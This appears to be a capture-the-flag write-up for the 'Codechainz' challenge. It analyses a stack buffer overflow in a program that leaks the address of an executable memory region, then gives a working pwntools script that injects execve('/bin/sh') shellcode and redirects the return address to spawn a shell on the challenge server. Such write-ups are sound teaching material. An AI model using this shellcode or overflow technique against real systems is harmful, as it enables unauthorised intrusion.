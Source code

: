 ```yaml
---
title: Codechainz
author: Patrick
ShowToc: true
date: 2022-04-18
---
```


> This is Codechain's older brother, Codechainz

### What's going on?

This is what we get if we run the program:

```
Hey, this is an epic memory saver. #saved
Because of COVID-19 restrictions,
we can only do memory saving of programming languages.
We apologize for the inconvenience.

Preparing the memory space...
Memory space is ready for storing data.
DISCLAIMER: All your memories will be saved at 0x7fd43dc5f000.


Here are your options. Choose one:
1  Make a new memory
2  View a memory
3  Delete a memory
4  Exit
>
```
Apparently it leaks an address and allows us to make, view and delete a memory (which should be saved at the aforementioned address).

A quick checksec tells us that there's no canary but the stack isn't executable:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Thanks to the binary not being stripped, the code (decompiled using Ghidra) is quite readable.
The main just sets an alarm (which isn't handled so the program crashes after 20 seconds) and calls two functions.
```c
int main(void) {
  alarm(20);
  welcome();
  loop_de_loop();
  return 0;
}
```

The first one, `welcome`, does nothing useful except calling `initMemory` (which allocates `0x1E=30` bytes with the `PROT_EXEC` bit set) and printing `memory_space`'s address.
```C
void init_memory(void) {
  int *piVar1;
  memory_space = mmap(0x0,0x1e,0x7,0x22,-1,0);
  if (memory_space == -1) {
    perror("mmap");
    fflush(stdout);
    piVar1 = __errno_location();
                    /* WARNING: Subroutine does not return */
    exit(*piVar1);
  }
  return;
}
```

The second one, `loop_the_loop`, is just a REPL interface. The interesting bit is `input_str`, called when making a new memory.

Here 44 bytes are allocated on the stack for our input but 100 are read (thus allowing us to _smash the stack_:tm:). Then the first 30 bytes are copied to `memory_space` (which we know is executable).
```c
void input_str(void) {
  char stack_buffer [44];
  int i;
  
  memset(stack_buffer,0,30);
  puts("Please input a programming language of your desire. I swear i will remember it.");
  printf("> ");
  fflush(stdout);
  fgets(stack_buffer,100,stdin);
  for (i = 0; i < 30; i = i + 1) {
    *(char *)(memory_space + i) = stack_buffer[i];
  }
  fflush(stdin);
  return;
}
```

### The solution

By looking at the disassembled `input_str` we see that `0x30` bytes are reserved on the stack and `stack_buffer` is placed at it's beginning:
```
0000000000001389 <input_str>:
    1389:	55                   	push   %rbp
    138a:	48 89 e5             	mov    %rsp,%rbp
    138d:	48 83 ec 30          	sub    $0x30,%rsp       <-
    1391:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <-
    .....
```
So this is how the stack looks:
```
+--------+ 0
|        |
|        | --> variables allocated on the stack
|        |
+--------+ 0x30 = 48
|        | --> parent's RBP
+--------+ 56
|        | --> return address
+--------+ 64
```

We just have to place a shellcode in the first 30 bytes and then write `memory_space` address on top of the regular return address

```python
from pwn import *

io = connect('51.124.222.205', 13370)

'''
Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode

http://shell-storm.org/shellcode/files/shellcode-603.php
'''
shellcode = b"\x48\x31\xd2"                             +  \
            b"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68" +  \
            b"\x48\xc1\xeb\x08"                         +  \
            b"\x53"                                     +  \
            b"\x48\x89\xe7"                             +  \
            b"\x50"                                     +  \
            b"\x57"                                     +  \
            b"\x48\x89\xe6"                             +  \
            b"\xb0\x3b"                                 +  \
            b"\x0f\x05"

io.recvuntil(b'saved at ')
addr = int(io.recvuntil(b'.', drop=True).decode(), 16)
log.info(f'memory_space address: {hex(addr)}')

io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b'> ')

payload = shellcode  # shellcode (30 bytes long)
payload += b'K'*26   # padding
payload += p64(addr) # memory_space address

io.sendline(payload)
io.interactive()
```

We now have a shell on the server so we can `cat flag.txt`